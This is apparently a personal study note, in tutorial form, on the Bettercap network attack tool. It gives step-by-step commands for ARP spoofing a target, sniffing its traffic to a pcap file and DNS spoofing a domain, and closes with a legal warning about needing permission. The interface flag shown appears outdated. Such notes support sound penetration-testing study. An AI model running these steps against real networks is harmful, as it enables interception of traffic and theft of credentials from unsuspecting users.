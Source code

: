 ## 🛡️ **Bettercap

### 🔷 What is Bettercap?

**Bettercap** is a powerful, flexible, and modular **network attack and monitoring tool** created to perform **Man-In-The-Middle (MITM)** attacks, packet sniffing, real-time manipulation of network traffic, credential harvesting, and more.

It is written in Go and supports:

- Ethernet/Wi-Fi MITM
    
- HTTPS downgrading
    
- DNS spoofing
    
- Network scanning
    
- Packet injection
    
- BLE, HID, and RFID attacks
    

---

## 🧰 Installation

### On Kali Linux (pre-installed in most cases):

```bash
sudo apt update
sudo apt install bettercap -y
```

### Verify:

```bash
bettercap --version
```

---

## ⚙️ Running Bettercap

### Basic command:

```bash
sudo bettercap -I eth0
```

- Replace `eth0` with your actual interface (`ip a` to list interfaces).
    
- Use `wlan0` for Wi-Fi.
    

---

## 💻 Bettercap Interactive Shell

Once inside, the prompt changes to:

```text
bettercap >
```

From here, you can issue module-specific commands.

---

## 🔍 Common Bettercap Modules

|Module|Description|Command|
|---|---|---|
|`net.probe`|Actively scan LAN for live hosts|`net.probe on`|
|`net.show`|Show discovered devices|`net.show`|
|`arp.spoof`|Launch ARP spoofing|`arp.spoof on`|
|`http.proxy`|Intercept and modify HTTP traffic|`http.proxy on`|
|`https.proxy`|MITM HTTPS via SSL stripping (needs setup)|`https.proxy on`|
|`dns.spoof`|Redirect DNS queries|`dns.spoof on`|
|`sniffer`|Capture network packets|`sniffer on`|
|`events.stream`|Show events in real-time|`events.stream on`|

---

## 🎯 Example: Basic MITM Attack with ARP Spoofing

### 1. Start Bettercap:

```bash
sudo bettercap -I eth0
```

### 2. Enable network scanning:

```bash
net.probe on
```

### 3. Show detected hosts:

```bash
net.show
```

### 4. Set a target IP:

```bash
set arp.spoof.targets 192.168.0.105
```

### 5. Start ARP spoofing:

```bash
arp.spoof on
```

### 6. Start sniffer (to capture data):

```bash
set sniffer.output /home/user/sniffed.pcap
sniffer on
```

> You can analyze the `.pcap` file in **Wireshark** later.

---

## 🧪 DNS Spoofing Example

```bash
set dns.spoof.domains example.com
set dns.spoof.address 192.168.0.100
dns.spoof on
```

When the victim browses `example.com`, they are redirected to `192.168.0.100`.

---

## 🛑 Stop & Exit

- To stop a module: `arp.spoof off`
    
- To quit: `exit`
    

---

## 📁 Logs and Output

- Sniffer: Outputs `.pcap` file for Wireshark
    
- Events: Displayed via `events.stream on`
    

---

## ⚠️ Legal Warning

> **Use Bettercap only in environments where you have explicit permission** (e.g., penetration tests with a signed scope). Unauthorized usage is illegal and unethical.

---
## 🏷️ Tags

#Cyber_Security #Kali_Linux #Wifi_Hacking #Buttercap

[[Wi-Fi Hacking]]
